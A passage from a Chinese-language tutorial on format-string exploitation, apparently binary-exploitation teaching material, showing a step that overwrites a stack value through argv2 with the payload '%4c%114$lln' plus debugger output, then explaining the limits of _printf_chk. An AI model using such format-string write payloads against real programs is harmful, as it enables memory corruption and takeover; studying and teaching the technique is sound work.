 ```bash
                                                               +----------+
0088| 0x7fffffffe878 --> 0x7fffffffe948 --> 0x7fffffffeb80 --> |0xdeadbeef|
                                                               +----------+
```

#### 第五步：透過 argv2 寫入 0xdeadbeef

這邊再寫入的時候，如果要寫得值太大，一樣要像前面一樣分成多段來寫，而這個範例只要寫入 `0x4` 所以就直接寫就好了

```
%4c%114$lln
```

寫完後，`0xdeadbeef` 存的值就會被改掉了

```bash
0088| 0x7fffffffe878 --> 0x7fffffffe948 --> 0x7fffffffeb80 --> 0xdeadbeef --> 0x4
```

> 這題範例為了講解方便，所以一次都寫 2 bytes，建議是一次寫 1 byte 用 for 迴圈自動移動完成即可

## _printf_chk

有時候會遇到使用的是 `_printf_chk` 而非 `printf`，其實這兩個差不多，只不過 `_printf_chk` 多了以下限制

- 不能用 `%n` 系列寫值
- 不能用 `%x$y` 指定參數
